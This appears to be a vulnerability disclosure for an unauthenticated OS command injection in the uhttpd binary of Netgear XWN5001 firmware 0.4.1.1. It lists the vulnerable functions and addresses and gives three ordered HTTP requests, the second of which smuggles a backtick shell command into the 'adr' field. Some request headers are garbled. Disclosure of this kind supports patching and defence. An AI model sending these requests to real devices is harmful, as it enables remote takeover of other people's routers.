




# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.


## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a OS Command Injection vulnerability, allowing unauthenticated remote attackers to inject arbitrary OS commands and execute them on the server.
## detail
The vulnerability is located in the function cmd_macaddr_rm at address 0x412404 of the binary usr/sbin/uhttpd. The content of file /tmp/Aclmacaddr, which can be controled by user, is passed to function system and cause the issue.

Firstly, after sending package1, parameter select_edit is passed to wl_acl_editnum in nvram in function wlacl_editnum at 0x439740.


Secondly, after sending package2, parameter device and adr are passed to wlacl%d in nvram in function wlacl_editnum at 0x43988C.


Thirdly, after sending package3, parameter wlacl%d in nvram is passed to file /tmp/Aclmacaddr, and /tmp/Aclmacaddr is read and the content is passed to system in  function cmd_macaddr_rm at 0x412404, which cause arbitrary OS commands execution.


## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

select_edit=123&submit_flag=wlacl_editnum
```

# package2
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

device=1111111&adr=`echo 123 >/poc`&plc_qos_port_select=10&hide2_policy=wzqwzqwzq&submit_flag=wlacl_edit
```

# package3
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

select_del=123&plc_qos_port_select=10&hide2_policy=wzqwzqwzq&submit_flag=wlacl_del
```

## Attack result

